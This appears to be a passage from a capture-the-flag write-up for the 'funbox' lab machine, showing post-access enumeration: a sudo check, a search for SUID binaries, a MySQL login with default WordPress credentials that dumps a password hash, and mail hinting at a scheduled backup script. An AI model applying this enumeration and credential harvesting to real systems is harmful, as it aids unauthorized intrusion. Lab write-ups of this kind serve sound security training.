 Checking if joe can run anything with elevated privileges:
```
joe@funbox:/home/funny$ sudo -l
[sudo] password for joe: 
Sorry, user joe may not run sudo on funbox.
```

```
joe@funbox:/home/funny$ find / -perm /4000 2>/dev/null
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/at
/usr/bin/chfn
/usr/bin/fusermount
/usr/bin/newgrp
[SNIP]
```

Checking mysql for credentials:
```
joe@funbox:/var/www/html$ mysql -u wordpress -p'wordpress'
```

The user funny is a admin/root user:

```
mysql> select * from wp_users;
-+---------------------+-----------------------------------------------+-------------+-----
|  1 | admin      | $P$BGUPID16QexYI9XRblG9k8rnr0TMJN1 | admin         | funny@funbox.box |   

```
Checking joe's mail:
```
joe@funbox:/var/www/html$ mail
"/var/mail/joe": 2 messages 2 new
>N   1 funny              Fri Jun 19 14:31  13/501   Reminder
 N   2 funny              Fri Jun 19 14:32  13/501   Reminder
? 
Return-Path: <funny@funbox>
X-Original-To: joe@funbox
Delivered-To: joe@funbox
Received: by funbox.fritz.box (Postfix, from userid 1000)
	id A7979446B3; Fri, 19 Jun 2020 14:31:26 +0000 (UTC)
Subject: Reminder
To: <joe@funbox>
X-Mailer: mail (GNU Mailutils 3.7)
Message-Id: <20200619143126.A7979446B3@funbox.fritz.box>
Date: Fri, 19 Jun 2020 14:31:26 +0000 (UTC)
From: funny <funny@funbox>

Hi Joe, the hidden backup.sh backups the entire webspace on and on. Ted, the new admin, test it in a long run.
```
